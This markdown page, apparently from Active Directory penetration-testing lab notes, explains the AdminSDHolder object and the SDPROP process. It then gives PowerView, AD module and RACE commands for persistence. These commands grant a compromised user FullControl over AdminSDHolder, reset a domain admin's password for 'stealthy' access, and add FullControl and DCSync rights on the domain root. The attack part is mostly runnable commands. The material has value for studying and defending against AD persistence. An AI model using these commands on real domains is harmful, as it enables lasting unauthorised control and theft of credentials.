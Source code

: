 # ACLs

## AdminSDHolder

In Active Directory, the [**`AdminSDHolder`**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#adminsdholder) object is a critical mechanism for securing privileged accounts. Located within the System container of a domain, `AdminSDHolder` acts as a template for Access Control Lists (ACLs) applied to members of [Protected Groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#protected-groups)—such as Domain Admins (DA), Enterprise Admins (EA), and others. **This object is owned by the DA group**, though the Local Administrators and EA groups can also assume ownership.

The [Security Descriptor Propagator](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#sdprop) (`SDPROP`) is a built-in process that runs every 60 minutes. It synchronizes the ACLs of protected users and groups by overwriting their security descriptors with the one set on `AdminSDHolder`. Any changes made directly to these group ACLs will be reverted.

An attacker with DA privileges can alter the `AdminSDHolder` ACL to include a compromised user account with full access rights. This ensures that `SDPROP` will propagate those rights to all protected accounts on each run.

{% tabs %}
{% tab title="PowerView" %}
Add `FullControl` permissions to the `AdminSDHolder` object (as a DA):

{% code overflow="wrap" fullWidth="false" %}
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local
```
{% endcode %}

Confirm the modification:

{% code overflow="wrap" %}
```powershell
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student337"}
```
{% endcode %}

Instead of granting full rights via `GenericAll`, specific permissions like `ResetPassword` or `WriteMembers` can be used for more stealthy access:

{% code overflow="wrap" %}
```powershell
# Abuse the ResetPassword permissions
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "P@assw0rd123!" -AsPlainText -Force) -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="AD & RACE" %}
Add `FullControl` permissions to the `AdminSDHolder` object (as a DA) using the AD module and [RACE toolkit](https://github.com/samratashok/RACE)

{% code overflow="wrap" %}
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student337 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local'
```
{% endcode %}

Confirm the modification:

{% code overflow="wrap" %}
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins, CN=Users, DC=dollarcorp, DC=moneycorp, DC=local').Access | ?{$_.IdentityReference -match 'student337'}
```
{% endcode %}

Instead of granting full rights via `GenericAll`, specific permissions like `ResetPassword` or `WriteMembers` can be used for more stealthy access:

{% code overflow="wrap" %}
```powershell
# Abuse the ResetPassword permissions
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "P@assw0rd123!" -AsPlainText -Force) -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Domain Root

Beyond `AdminSDHolder`, a user with DA privileges can **manipulate ACLs on the domain root** to escalate or persist access.

{% tabs %}
{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Assign FullControl rights
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local

# Assign DCSync rights
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local
```
{% endcode %}
{% endtab %}

{% tab title="AD module & RACE" %}


{% code overflow="wrap" %}
```powershell
# Assign FullControl rights
Set-ADACL -SamAccountName student337 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose

# Assign DCSync rights
Set-ADACL -SamAccountName student337 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}
